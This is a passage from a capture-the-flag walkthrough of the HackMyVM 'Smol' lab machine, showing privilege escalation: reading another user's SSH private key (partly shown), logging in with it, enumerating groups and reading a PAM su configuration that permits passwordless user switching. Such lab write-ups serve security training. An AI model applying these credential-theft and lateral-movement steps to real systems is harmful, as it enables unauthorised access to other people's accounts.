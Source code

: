 ```bash
drwxr-x--- 2 xavi internal 4096 Aug 18  2023 .
drwxr-xr-x 6 root root     4096 Aug 16  2023 ..
lrwxrwxrwx 1 root root        9 Aug 18  2023 .bash_history -> /dev/null
-rw-r--r-- 1 xavi xavi      220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 xavi xavi     3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 xavi xavi      807 Feb 25  2020 .profile
lrwxrwxrwx 1 root root        9 Aug 18  2023 .viminfo -> /dev/null
```

Think's home directory has the `.ssh` folder and we have read access to it. Let's read Think's SSH private key and use it to log in as Think.
```bash
diego@smol:/home$ cat think/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
<SNIP>
81DXo7MfGm0bSFAAAAEnRoaW5rQHVidW50dXNlcnZlcg==
-----END OPENSSH PRIVATE KEY-----
```

```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Smol/Misc File]
└─$ nano think_rsa 

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Smol/Misc File]
└─$ chmod 600 think_rsa         

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Smol/Misc File]
└─$ ssh think@10.0.2.38 -i think_rsa
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-156-generic x86_64)
<SNIP>
think@smol:~$ 
```

We can also enumerate group membership on the target.
```bash
think@smol:/home$ cat /etc/group | grep "gege\|diego\|think\|xavi"
think:x:1000:
xavi:x:1001:
diego:x:1002:
gege:x:1003:
dev:x:1004:think,gege
internal:x:1005:diego,gege,think,xavi
```

We can see that all local users are members of the custom `internal` group and both Think and Gege are members of the `dev` which is also a custom group. Since many local users are on the target, we can read the PAM configuration files used to configure methods to authenticate users.
```bash
think@smol:/home$ cat /etc/pam.d/su
#                                      
# The PAM configuration file for the Shadow `su' service      
#
                                               
# This allows root to su without passwords (normal operation)
auth       sufficient pam_rootok.so
auth  [success=ignore default=1] pam_succeed_if.so user = gege          
auth  sufficient                 pam_succeed_if.so use_uid user = think
<SNIP>ex
```
